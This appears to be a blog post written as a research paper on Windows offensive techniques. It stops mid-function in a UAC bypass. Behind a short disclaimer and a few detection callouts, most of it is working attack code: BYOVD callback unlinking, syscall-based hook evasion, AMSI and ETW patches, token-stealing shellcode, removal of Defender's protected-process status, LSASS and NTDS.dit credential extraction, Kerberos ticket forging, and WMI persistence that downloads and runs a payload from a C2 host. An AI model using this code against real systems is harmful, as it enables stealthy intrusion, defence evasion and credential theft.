




> **Disclaimer:** This post documents techniques from authorized penetration testing and published security research. All content is for academic and educational purposes in licensed offensive security contexts. Unauthorized computer access is illegal. Always obtain explicit written authorization before testing.
{: .prompt-warning }

## Abstract

This paper presents an exhaustive, technically authoritative examination of advanced offensive security techniques targeting the Microsoft Windows operating system across five interconnected domains. The first domain covers Endpoint Detection and Response (EDR) evasion through kernel callback unlinking using the Bring Your Own Vulnerable Driver (BYOVD) paradigm, indirect and hardware-breakpoint-assisted syscall execution, ETW and AMSI patching, and synthetic call stack construction. The second domain addresses Windows kernel exploitation in depth, including arbitrary read/write primitives from drivers such as RTCore64.sys (CVE-2019-16098), EPROCESS token manipulation, kernel APC injection, and IOCTL dispatch analysis. The third domain examines Windows Defender-specific bypass methodologies. The fourth covers post-exploitation and privilege escalation. The fifth analyzes loader development and code injection.

---

## 1. Introduction

The adversarial relationship between offensive security researchers and the Windows security ecosystem has evolved over the past decade into one of the most technically sophisticated arms races in applied computer science. Microsoft has introduced progressively stronger mandatory security mitigations — Kernel Patch Protection (KPP/PatchGuard), Hypervisor-Protected Code Integrity (HVCI), Virtualization-Based Security (VBS), Protected Process Light (PPL), and Credential Guard — each imposing meaningful constraints on what attackers can accomplish in kernel space and in credential storage.

Modern EDR platforms have evolved in parallel, moving well beyond signature-based file scanning into multi-layer telemetry architectures that instrument the kernel via minifilter drivers, consume the ETW Threat Intelligence provider, inject monitoring DLLs into every user-mode process, and perform in-memory pattern scanning. A threat actor operating against such a platform requires a carefully choreographed combination of driver-level kernel blind-spot creation, NTAPI hook removal, call stack legitimization, and memory-scanner-aware payload staging.


_High-level attack chain linking kernel evasion to operational C2_

---

## 2. EDR Evasion Techniques

### 2.1 Foundations of EDR Architecture

A production-grade EDR such as CrowdStrike Falcon, SentinelOne, or Microsoft Defender for Endpoint operates across multiple monitoring layers simultaneously. At the kernel level, the EDR loads a minifilter driver that registers with the Filter Manager and calls `PsSetCreateProcessNotifyRoutine`, `PsSetCreateThreadNotifyRoutine`, `PsSetLoadImageNotifyRoutine`, and `ObRegisterCallbacks` to receive synchronous notification of process lifecycle events. At the user-mode level, the EDR injects a monitoring DLL into every newly created process, installing inline hooks on sensitive NTAPI functions within `ntdll.dll` by overwriting their first bytes with a `jmp` instruction. At the telemetry level, the EDR consumes ETW providers — including the privileged `Microsoft-Windows-Threat-Intelligence` ETW TI provider.


_EDR monitoring architecture — kernel and user-mode layers_

Evasion strategies must address each monitoring layer independently. Blinding only the kernel callbacks leaves the userland hooks intact; removing only the userland hooks still exposes operations to ETW TI telemetry. A complete bypass requires silencing all three layers.

### 2.2 Kernel Callback Unlinking via Vulnerable Signed Drivers

The internal data structure storing process creation notification callbacks is `nt!PspCreateProcessNotifyRoutine`, a kernel-resident array of up to 64 `EX_CALLBACK` structures. The vulnerability enabling callback removal is straightforward: the array resides in writable non-paged pool memory, and any process with a kernel write primitive can zero out specific entries, preventing callbacks from being invoked.

The MSI Afterburner driver `RTCore64.sys` (CVE-2019-16098) is among the most documented BYOVD targets. Its dispatch routine for IOCTL codes `0x222408` (read) and `0x22240C` (write) accepts a user-mode supplied structure containing a 64-bit virtual address and value, directly reading/writing that address in kernel context without bounds validation.

```c
// RTCore64.sys IOCTL write request structure
typedef struct _RTCORE64_WRITE_REQUEST {
    ULONG64 Address;   // Target kernel virtual address
    ULONG64 Value;     // 64-bit value to write
} RTCORE64_WRITE_REQUEST, *PRTCORE64_WRITE_REQUEST;
```

Loading and using the driver from user mode:

```c
// Step 1: Load the vulnerable driver via SCM
SC_HANDLE sc_handle = OpenSCManager(NULL, NULL, SC_MANAGER_CREATE_SERVICE);
SC_HANDLE svc_handle = CreateService(sc_handle, L"RTCore64", L"RTCore64",
    SERVICE_ALL_ACCESS, SERVICE_KERNEL_DRIVER, SERVICE_DEMAND_START,
    SERVICE_ERROR_NORMAL, L"C:\\Temp\\RTCore64.sys",
    NULL, NULL, NULL, NULL, NULL);
StartService(svc_handle, 0, NULL);

// Step 2: Open the device and issue the write IOCTL
HANDLE hDriver = CreateFile(L"\\\\.\\RTCore64",
    GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

RTCORE64_WRITE_REQUEST req = { target_callback_address, 0ULL };
DWORD bytesReturned;
DeviceIoControl(hDriver, 0x22240C, &req, sizeof(req),
    NULL, 0, &bytesReturned, NULL);
// Repeat for each callback slot to unlink all EDR callbacks
```

The EDRSandBlast tool from Wavestone automates locating `PspCreateProcessNotifyRoutine`, `PspCreateThreadNotifyRoutine`, and `PspLoadImageNotifyRoutine` arrays alongside the ETW TI provider callbacks, then issues targeted writes to remove entries belonging to the target EDR driver.

> **Detection:** HVCI prevents this by enforcing write-protection on kernel data pages at the hypervisor level. The Microsoft Vulnerable Driver Blocklist (`KMCI`) should be enabled and kept current.
{: .prompt-info }

### 2.3 Userland Hook Evasion: Indirect Syscalls

The architectural weakness of userland hooking is fundamental. An EDR overwrites the first bytes of `NtAllocateVirtualMemory` in the process's private copy of `ntdll.dll` — those bytes exist only in private virtual address space. A direct syscall invocation replicates the kernel transition stub in attacker-controlled memory:

```asm
; Standard NTAPI stub layout in ntdll.dll
mov r10, rcx          ; Save first argument (Microsoft x64 calling convention)
mov eax, <SSN>        ; Load System Service Number
syscall               ; Transition to kernel via IA32_LSTAR MSR
ret                   ; Return to caller
```

**Hell's Gate** — dynamic SSN resolution by parsing the `ntdll.dll` EAT:

```c
// Hell's Gate SSN resolution
DWORD get_ssn(LPCSTR function_name) {
    PVOID ntdll = GetModuleHandleA("ntdll.dll");
    // ... EAT parsing to locate function VA ...
    PBYTE func = (PBYTE)function_va;
    // Standard stub pattern: 4C 8B D1 (mov r10,rcx), B8 XX XX XX XX (mov eax,SSN)
    if (func[0] == 0x4C && func[1] == 0x8B && func[2] == 0xD1 &&
        func[3] == 0xB8) {
        return *(DWORD*)(func + 4); // SSN at offset 4
    }
    // If hooked (JMP at start), walk to neighboring function for SSN
    return resolve_by_neighbor_walking(func);
}
```

**TartarusGate** extends detection to hooks placed at offset 3 or 8 in the stub:

```c
// TartarusGate: multi-offset hook detection
if (func[0] == 0xE9 || func[3] == 0xE9 || func[8] == 0xE9) {
    // JMP detected — function is hooked; derive SSN from clean neighbor
    return resolve_by_neighbor_walking(func, direction);
}
```

**Indirect syscall** (routes through a `syscall; ret` gadget inside `ntdll.dll` itself, making the kernel-visible return address legitimate):

```c
// Indirect syscall stub - call_addr points to ntdll!Nt* + offset_of_syscall_instr
// so the kernel's return address is a real ntdll.dll virtual address
extern "C" NTSTATUS IndirectSyscall_NtAllocateVirtualMemory(
    HANDLE ProcessHandle, PVOID* BaseAddress, ULONG_PTR ZeroBits,
    PSIZE_T RegionSize, ULONG AllocationType, ULONG Protect);
// Resolved SSN placed in EAX; actual syscall instruction from ntdll gadget
```

The **SyscallTempering** technique hides intent further — it uses a benign syscall as cover, substituting the real SSN and arguments only at the moment a hardware breakpoint fires inside the VEH handler.

### 2.4 ETW and AMSI Patching

**AMSI byte patch** — forces `AmsiScanBuffer` to return `E_INVALIDARG`, treated as clean:

```c
// Patch AmsiScanBuffer to return AMSI_RESULT_CLEAN immediately
HMODULE hAmsi = GetModuleHandleA("amsi.dll");
FARPROC pAmsiScanBuffer = GetProcAddress(hAmsi, "AmsiScanBuffer");

// mov eax, 0x80070057 (E_INVALIDARG), ret
BYTE patch[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
DWORD oldProtect;
VirtualProtect(pAmsiScanBuffer, sizeof(patch), PAGE_EXECUTE_READWRITE, &oldProtect);
memcpy(pAmsiScanBuffer, patch, sizeof(patch));
VirtualProtect(pAmsiScanBuffer, sizeof(patch), oldProtect, &oldProtect);
```

**PowerShell reflection bypass** — sets `amsiInitFailed = true`, skipping all future scans in the session without touching `amsi.dll` bytes:

```powershell
# Reflection approach - no byte modification of amsi.dll
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils') |
    ForEach-Object {
        $_.GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
    }
```

**Hardware breakpoint AMSI bypass** — zero bytes modified in `amsi.dll`:

```c
// Set execution HWBP on AmsiScanBuffer
CONTEXT ctx = {0};
ctx.ContextFlags = CONTEXT_DEBUG_REGISTERS;
ctx.Dr0 = (ULONG64)GetProcAddress(GetModuleHandleA("amsi.dll"), "AmsiScanBuffer");
ctx.Dr7 = 0x1; // DR0 local execute breakpoint
NtContinue(&ctx, FALSE);

// VEH handler: when DR0 fires, redirect RIP to a ret gadget
LONG WINAPI amsi_veh(PEXCEPTION_POINTERS pExInfo) {
    if (pExInfo->ExceptionRecord->ExceptionCode == EXCEPTION_SINGLE_STEP &&
        pExInfo->ContextRecord->Rip == amsi_scan_buffer_va) {
        pExInfo->ContextRecord->Rip = ret_gadget_va; // skip the scan entirely
        pExInfo->ContextRecord->EFlags &= ~0x100;
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    return EXCEPTION_CONTINUE_SEARCH;
}
```

**ETW NtTraceEvent patch** — suppresses all user-mode ETW events:

```c
// Single-byte patch: NtTraceEvent -> ret
FARPROC pNtTraceEvent = GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtTraceEvent");
BYTE patch = 0xC3; // ret
DWORD oldProtect;
VirtualProtect(pNtTraceEvent, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
memcpy(pNtTraceEvent, &patch, 1);
VirtualProtect(pNtTraceEvent, 1, oldProtect, &oldProtect);
```

### 2.5 Synthetic Call Stack Spoofing

The **LayeredSyscall** / **RustVEHSyscalls** approach routes every sensitive NTAPI call through a legitimate `call + VEH + HWBP` chain, so the kernel sees only genuine `ntdll.dll` return addresses:

```rust
// RustVEHSyscalls (Rust implementation)
fn main() {
    initialize_hooks(); // Set VEH + hardware breakpoints
    let status = syscall!(
        "NtCreateUserProcess",
        OrgNtCreateUserProcess,
        &mut process_handle,
        &mut thread_handle,
        desired_access,
        desired_access,
        null_mut(), null_mut(), 0, 0,
        process_parameters,
        &mut create_info,
        attribute_list
    );
    destroy_hooks();
}
```

**Hypnus** sleep obfuscation with call stack spoofing encrypts shellcode during C2 sleep intervals, so memory scanners that snapshot idle processes see only encrypted, signature-free pages:

```rust
// Hypnus - three sleep obfuscation modes
use hypnus::{timer, wait, foliage, ObfMode};
use core::ffi::c_void;

let ptr = shellcode_base as *mut c_void;
let size: u64 = 512;
let delay: u64 = 5; // seconds

// Mode 1: TpSetTimer (Ekko-style)
timer!(ptr, size, delay);

// Mode 2: TpSetWait (Zilean-style)
wait!(ptr, size, delay);

// Mode 3: APC-based with full heap + RWX encryption
foliage!(ptr, size, delay, ObfMode::Heap | ObfMode::Rwx);
```

---

## 3. Windows Kernel Exploitation

### 3.1 EPROCESS Structure and Kernel Address Space

The Windows kernel KASLR randomizes `ntoskrnl.exe` base at boot, but the KPCR (Kernel Processor Control Region) is always accessible via the `gs` segment register at a well-known offset, providing a reliable anchor for structure traversal.


_EPROCESS navigation via KPCR — used in kernel token stealing_

Key EPROCESS offsets by Windows 10/11 build:

| Build  | UniqueProcessId | ActiveProcessLinks | Token  | ImageFileName |
|--------|-----------------|--------------------|--------|---------------|
| 1803   | +0x2E0          | +0x2E8             | +0x358 | +0x450        |
| 1903   | +0x2E0          | +0x2E8             | +0x360 | +0x450        |
| 21H2   | +0x440          | +0x448             | +0x4B8 | +0x5A8        |
| 22H2   | +0x440          | +0x448             | +0x4B8 | +0x5A8        |
| 24H2   | +0x440          | +0x448             | +0x4B8 | +0x5A8        |

### 3.2 Token Stealing Shellcode (Windows 10 x64 Build 17763)

```nasm
; Windows 10 x64 Build 17763 (1809) - Token stealing shellcode
; Source: Security-Arc / Connor McGarr research
[BITS 64]
start:
    ; Get current EPROCESS via KPCR
    mov r9, qword [gs:0x188]     ; KPCR.PrcbData.CurrentThread (KTHREAD)
    mov r9, qword [r9 + 0x220]   ; KTHREAD.ApcState.Process -> current EPROCESS

    ; Find target process by PID (replace 0x1234 with actual PID at runtime)
    mov rax, r9
loop_target:
    mov rax, qword [rax + 0x2E8] ; EPROCESS.ActiveProcessLinks.Flink
    sub rax, 0x2E8               ; Adjust back to EPROCESS base
    cmp qword [rax + 0x2E0], 0x1234  ; UniqueProcessId == target PID?
    jne loop_target
    mov rcx, rax
    add rcx, 0x358               ; rcx -> target Token field

    ; Walk to SYSTEM process (PID 4)
    mov rax, r9
loop_system:
    mov rax, qword [rax + 0x2E8]
    sub rax, 0x2E8
    cmp qword [rax + 0x2E0], 4   ; UniqueProcessId == 4 (SYSTEM)?
    jne loop_system
    mov rdx, rax
    add rdx, 0x358               ; rdx -> SYSTEM Token field

    ; Overwrite target Token with SYSTEM Token
    mov rdx, qword [rdx]         ; Load SYSTEM Token value (EX_FAST_REF)
    mov qword [rcx], rdx         ; Write to target process Token field
    ret
```

> This shellcode requires Ring 0 execution. SMEP must be disabled or bypassed (e.g., via Capcom.sys CR4 clear) before executing user-supplied code from kernel context.
{: .prompt-danger }

### 3.3 Capcom.sys — Direct Ring-0 Code Execution

Capcom.sys explicitly executes caller-controlled function pointers from kernel context, disabling SMEP first by clearing CR4 bit 20:

```c
// Capcom.sys IOCTL 0xAA013044 — executes user callback at Ring 0
struct CapcomInput {
    PVOID UserCallback;  // Called from Ring 0 after SMEP disable
    PVOID UserParam;
};

HANDLE hCapcom = CreateFile(L"\\\\.\\Htsysm72FB",
    GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

CapcomInput input = { token_stealing_shellcode, NULL };
DWORD bytesRet;
DeviceIoControl(hCapcom, 0xAA013044, &input, sizeof(input),
    NULL, 0, &bytesRet, NULL);
// shellcode now ran in Ring 0 with SMEP disabled
```

### 3.4 Kernel APC Injection

Kernel APCs enable code delivery to any thread, including those in protected processes, bypassing all userland EDR hooks:

```c
// Kernel APC injection (Ring 0 pseudocode)
void inject_via_kapc(PETHREAD target_thread, PVOID shellcode_base) {
    PKAPC kapc = (PKAPC)ExAllocatePoolWithTag(NonPagedPool, sizeof(KAPC), 'kapc');

    KeInitializeApc(
        kapc,
        target_thread,
        OriginalApcEnvironment,
        kapc_kernel_routine,   // Frees the KAPC structure after use
        NULL,                  // RundownRoutine
        shellcode_base,        // NormalRoutine (executes in user mode)
        UserMode,
        NULL
    );

    BOOLEAN inserted = KeInsertQueueApc(kapc, NULL, NULL, 0);
    if (inserted) KeTestAlertThread(UserMode);
}
```

---

## 4. Windows Defender Specific Bypasses

### 4.1 Registry Exclusion Discovery

Defender exclusions are stored in discoverable registry locations accessible to administrators:

```powershell
# WMI-based exclusion enumeration
Get-MpPreference | Select-Object ExclusionPath, ExclusionExtension,
    ExclusionProcess, ExclusionIpAddress, AttackSurfaceReductionOnlyExclusions

# Direct registry enumeration
Get-Item "HKLM:\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"
Get-Item "HKLM:\SOFTWARE\Microsoft\Windows Defender\Exclusions\Extensions"

# GPO-delivered exclusions
Get-Item "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Paths"

# Check which ASR rules are disabled
Get-Item "HKLM:\SOFTWARE\Microsoft\Windows Defender\Windows Defender Exploit Guard\ASR\Rules"
```

### 4.2 COM Object Hijacking for AMSI Provider Bypass

The AMSI framework calls `CoCreateInstance(CLSID_Antimalware)`, which searches HKCU before HKLM. Registering a non-existent DLL path under the Defender AMSI provider CLSID in HKCU prevents provider initialization without admin rights:

```batch
:: AMSI COM hijack — no administrator required
reg add "HKCU\Software\Classes\CLSID\{2781761E-28E0-4109-99FE-B9D127C57AFE}" /f
reg add "HKCU\Software\Classes\CLSID\{2781761E-28E0-4109-99FE-B9D127C57AFE}\InProcServer32" ^
    /ve /t REG_SZ /d "C:\NonExistentPath\fake.dll" /f
```

A fully functional malicious COM server can also implement `IAntimalware` and return `AMSI_RESULT_CLEAN` for all scans:

```c
class MaliciousAntimalware : public IAntimalware {
public:
    HRESULT STDMETHODCALLTYPE Scan(IAmsiStream* stream, AMSI_RESULT* result) {
        *result = AMSI_RESULT_CLEAN;  // Always returns clean
        return S_OK;
    }
    // Remaining interface methods return S_OK with benign values
};
```

### 4.3 In-Memory .NET Assembly Loading with D/Invoke

**D/Invoke** dynamically invokes Win32 APIs through delegates rather than P/Invoke, removing API import signatures from .NET assembly metadata visible to EDR:

```csharp
// D/Invoke - no P/Invoke metadata signature in assembly
[UnmanagedFunctionPointer(CallingConvention.StdCall)]
delegate IntPtr VirtualAllocDelegate(IntPtr lpAddress, uint dwSize,
    uint flAllocationType, uint flProtect);

// Dynamically resolve at runtime — no suspicious Import Table entry
IntPtr funcPtr = DInvoke.DynamicAPIInvoke("kernel32.dll", "VirtualAlloc",
    typeof(VirtualAllocDelegate),
    new object[] { IntPtr.Zero, (uint)shellcode.Length, (uint)0x3000, (uint)0x40 });

VirtualAllocDelegate dynVA = (VirtualAllocDelegate)
    Marshal.GetDelegateForFunctionPointer(funcPtr, typeof(VirtualAllocDelegate));

IntPtr mem = dynVA(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);
```

### 4.4 Tamper Protection and PPL Downgrade

Tamper Protection marks `MsMpEng.exe` as a PPL process. The `PS_PROTECTION` structure lives at `EPROCESS+0x87A`. Writing `0x00` to this byte removes PPL protection:

```c
// PS_PROTECTION structure layout
typedef struct _PS_PROTECTION {
    union {
        UCHAR Level;
        struct {
            UCHAR Type   : 3;  // PS_PROTECTED_TYPE
            UCHAR Audit  : 1;
            UCHAR Signer : 4;  // PS_PROTECTED_SIGNER
        };
    };
} PS_PROTECTION;

// Kernel write via BYOVD primitive: zero out MsMpEng.exe PPL byte
RTCORE64_WRITE_REQUEST req = {
    .Address = msmpeng_eprocess + 0x87A,  // PS_PROTECTION offset
    .Value   = 0x00                        // Clear all protection bits
};
DeviceIoControl(hDriver, 0x22240C, &req, sizeof(req), NULL, 0, &bytesRet, NULL);
// MsMpEng.exe can now be opened with PROCESS_ALL_ACCESS
```

---

## 5. Post-Exploitation and Privilege Escalation

### 5.1 Handle-Free LSASS Credential Dumping

Classic `MiniDumpWriteDump` against an `OpenProcess` LSASS handle is heavily monitored. **NanoDump** avoids all direct LSASS handles:

```c
// NanoDump snapshot approach — no ObRegisterCallbacks trigger
// Uses NtCreateProcessEx with PROCESS_CREATE_FLAGS_FORK instead of OpenProcess(lsass)

HANDLE snapshot_lsass(HANDLE lsass_handle_from_other_source) {
    OBJECT_ATTRIBUTES objAttr = {0};
    InitializeObjectAttributes(&objAttr, NULL, 0, NULL, NULL);

    HANDLE snapshot_handle;
    // Fork creates a process snapshot without triggering handle monitoring callbacks
    NtCreateProcessEx(&snapshot_handle, PROCESS_ALL_ACCESS, &objAttr,
        lsass_handle_from_other_source,
        PROCESS_CREATE_FLAGS_INHERIT_FROM_PARENT,
        NULL, NULL, NULL, FALSE);

    // Dump from snapshot — never opened a direct PROCESS_VM_READ handle to lsass.exe
    return snapshot_handle;
}
```

**NanoDump key properties:**
- Uses SysWhispers2 syscall stubs — no hooked Win32 API calls
- Self-implements minidump format (no `dbghelp.dll` dependency)
- Writes dump with invalid MZ signature to evade signature-based detection
- Typical dump size ~11 MB (irrelevant DLLs excluded)

**VSS offline extraction** — extracts NTDS.dit without any LSASS interaction:

```powershell
# Create VSS shadow copy
(Get-WmiObject -List Win32_ShadowCopy).Create("C:\", "ClientAccessible")
$shadow = (Get-WmiObject Win32_ShadowCopy | Sort-Object InstallDate -Descending)[0]

# Mount and copy offline database files
cmd /c "mklink /d C:\Temp\shadow $($shadow.DeviceObject)\"
Copy-Item "C:\Temp\shadow\Windows\NTDS\NTDS.dit"  "C:\Temp\ntds_copy.dit"
Copy-Item "C:\Temp\shadow\Windows\System32\config\SYSTEM" "C:\Temp\system_copy"

# Offline extraction (no network, no LSASS interaction required)
# python secretsdump.py -system system_copy -ntds ntds_copy.dit LOCAL
```

### 5.2 Kerberos Golden and Silver Ticket Forging

The Kerberos authentication flow and attack surface:


_Kerberos ticket forging insertion points_

**Golden Ticket** — forges a TGT using the KRBTGT hash (obtained via DCSync):

```batch
:: Mimikatz Golden Ticket
mimikatz # kerberos::golden /user:Administrator
    /domain:corp.local
    /sid:S-1-5-21-1234567890-1234567890-1234567890
    /krbtgt:8a0e69f57a065b6b4f929d61b4de2e8b
    /id:500
    /groups:512,513,518,519,520
    /ptt
```

**Silver Ticket** — forges a TGS for a specific service (no DC contact needed):

```batch
:: Mimikatz Silver Ticket for MSSQL service
mimikatz # kerberos::golden /user:BackupAdmin
    /domain:corp.local
    /sid:S-1-5-21-1234567890-1234567890-1234567890
    /target:sqlserver.corp.local
    /service:MSSQLSvc
    /rc4:a87f3a337d73085c45f9416be5787d86
    /id:500 /groups:512,513,518,519,520 /ptt
```

**Rubeus** programmatic equivalent:

```batch
:: Rubeus Silver Ticket + CIFS access
Rubeus.exe silver /service:cifs/fileserver.corp.local
    /rc4:a87f3a337d73085c45f9416be5787d86
    /user:Administrator /domain:corp.local
    /sid:S-1-5-21-1234567890-1234567890-1234567890 /ptt

:: Kerberoast all service accounts for offline cracking
Rubeus.exe kerberoast /outfile:hashes.txt /domain:corp.local

:: Pass-the-Hash via Kerberos
Rubeus.exe asktgt /user:Administrator /domain:corp.local
    /rc4:8a0e69f57a065b6b4f929d61b4de2e8b /ptt
```

> **Detection:** Silver Tickets do NOT generate Event ID 4769 (no TGS request to DC). Detect via Event ID 4624 at the target showing group SIDs inconsistent with AD membership.
{: .prompt-info }

### 5.3 WMI Event Subscription Persistence

WMI persistence requires three objects in the `root\subscription` namespace — no new process, scheduled task, or registry run key:

```powershell
# Complete WMI fileless persistence — fires every 12 hours
$Payload = "((new-object net.webclient).downloadstring('http://C2/a'))"
$finalPayload = "powershell.exe -nop -w hidden -c `"IEX $Payload`""

# 1. Timer instruction (fires every 12 hours)
$TimerArgs = @{
    IntervalBetweenEvents = ([UInt32] 43200000)
    SkipIfPassed          = $False
    TimerId               = 'SystemHealthCheck'
}
$Timer = Set-WmiInstance -Namespace root/cimv2 `
    -Class __IntervalTimerInstruction -Arguments $TimerArgs

# 2. EventFilter (listens for our timer)
$EventFilterArgs = @{
    EventNamespace = 'root/cimv2'
    Name           = 'WindowsUpdateHelper'
    Query          = "SELECT * FROM __TimerEvent WHERE TimerID = 'SystemHealthCheck'"
    QueryLanguage  = 'WQL'
}
$Filter = Set-WmiInstance -Namespace root/subscription `
    -Class __EventFilter -Arguments $EventFilterArgs

# 3. CommandLineEventConsumer (executes payload)
$ConsumerArgs = @{
    Name                = 'WUDataProcessor'
    CommandLineTemplate = $finalPayload
}
$Consumer = Set-WmiInstance -Namespace root/subscription `
    -Class CommandLineEventConsumer -Arguments $ConsumerArgs

# 4. Binding (links filter to consumer)
Set-WmiInstance -Namespace root/subscription `
    -Class __FilterToConsumerBinding `
    -Arguments @{ Filter = $Filter; Consumer = $Consumer }
```

> **Detection:** Monitor Sysmon Event IDs **19** (WmiEventFilter), **20** (WmiEventConsumer), **21** (WmiEventConsumerToFilter) and Windows Event IDs 5858/5859/5860.
{: .prompt-warning }

### 5.4 UAC Bypass — fodhelper.exe (Windows 10/11)

`fodhelper.exe` is an auto-elevated Microsoft binary that reads `HKCU\Software\Classes\ms-settings` before launching its function. Writing a command there causes it to execute at high integrity:

```powershell
function Invoke-FodhelperBypass {
    param([String]$Command = "cmd /c start cmd.exe")

